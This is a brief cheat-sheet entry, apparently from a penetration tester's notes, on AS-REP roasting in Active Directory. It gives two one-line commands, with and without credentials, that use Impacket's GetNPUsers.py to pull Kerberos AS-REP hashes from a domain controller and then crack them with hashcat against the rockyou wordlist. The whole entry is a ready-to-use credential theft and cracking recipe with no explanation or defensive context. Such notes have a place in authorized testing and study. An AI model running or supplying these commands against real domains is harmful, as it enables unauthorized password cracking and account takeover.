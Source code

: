 # getnpusers
#active-directory

## ASREPRoast with usersfile
```
GetNPUsers.py -usersfile <usersfile|users.txt> -outputfile hashes.asreproast <domain>/ -dc-ip <ip>; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## ASREPRoast with authentication
```
GetNPUsers.py -request -outputfile hashes.asreproast <domain>/'<user>':'<passwd>' -dc-ip <ip>; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```
